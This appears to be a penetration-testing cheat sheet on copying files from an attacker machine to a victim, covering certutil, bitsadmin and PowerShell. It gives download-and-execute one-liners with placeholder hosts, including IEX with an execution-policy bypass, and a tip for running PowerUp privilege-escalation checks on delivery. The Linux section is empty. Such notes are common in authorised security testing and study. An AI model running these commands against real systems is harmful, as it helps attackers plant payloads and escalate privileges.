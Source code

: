 #  Transferring Files

In many engagements you will need to be able to copy files between the victim machine and attacking machine.  This section outlines a number of common methods for transferring files for both Windows and Linux.  Note that this will usually rely on having the necessary files hosted on a webserver. This can be achieved by using python3 to create a temporary web server to host files on the attacker machine:
`python3 -m http.server 80`

## Windows 

### CertUtil.exe

CertUtil can be used to download files from a web server using the following command:

`certutil -urlcache -split -f "http://ip-addr:port/NameOfHostedFile" <output-file-name>`

### Powershell

#### Download and Execute Script

Powershell can also be used to dowload and execute powershell scripts on a host:

`powershell IEX(New-Object Net.WebClient).DownloadString('http://<IPAddress>:<Port>/PowershellScript.ps1')`

Powershell Download and Execute script with execution bypass and Powershell Version 2:

`powershell -Version 2 -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('http://<IPAddress>:<Port>/PowershellScript.ps1')`

To execute the payload upon delivery add the command you want Powershell to run at the end of the script.  A good example of this is using the PowerUp.ps1 privilege escalation script.  The command Invoke-AllChecks can be added to the end of the script so that it is ran as soon as it is collected from the attackers machine.  If you only want to download the script then execute later the `powershell Import-Module .\PowershellScript.ps1` command can be used.  This will then allow you to run the commands within the script manaully.

#### Download File

Using powershell to download a file:

powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip_address>:<port>/<fileName.exe','<outputFilename.exe')"

In Powershell version 3 and above, wget can also be used to download a file:

`wget "http://<ip address>:<port>/FileToDownload.exe" -OutFile SomeOutputFileName.exe `



### BITS Admin

BITSAdmin can also be used to transfer files to a host with the following command: 

`cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://<ip address>:<port>/FileToTransfer.exe C:\Path\ExeOutputName.exe & start acrev.exe"`


## Linux
